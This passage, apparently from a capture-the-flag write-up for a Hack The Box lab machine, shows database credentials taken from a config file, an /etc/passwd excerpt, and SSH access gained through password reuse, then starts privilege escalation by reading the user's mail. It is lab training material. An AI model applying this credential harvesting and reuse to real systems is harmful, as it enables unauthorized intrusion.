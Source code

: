 ```bash
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

The `/etc/passwd` file reveals that there is indeed a user on the system called `admin` .

```bash
<SNIP>
admin:x:1000:1000::/home/admin:/bin/bash

memcache:x:115:121:Memcached,,,:/nonexistent:/bin/false
```

Owed to password re-use we can login as `admin` over SSH with `SuperDuperPass123` 

```bash
ssh admin@2million.htb
```

![img](./assets/ssh%20admin@2millio.htb.png)

The user flag can be found in /home/admin .

## Privilege Escalation

Enumeration of the current user's mails in `/var/mail` reveals a file called `admin` , which contains all the emails for our current user. Let's read it.

![img](./assets/mail-box.png)
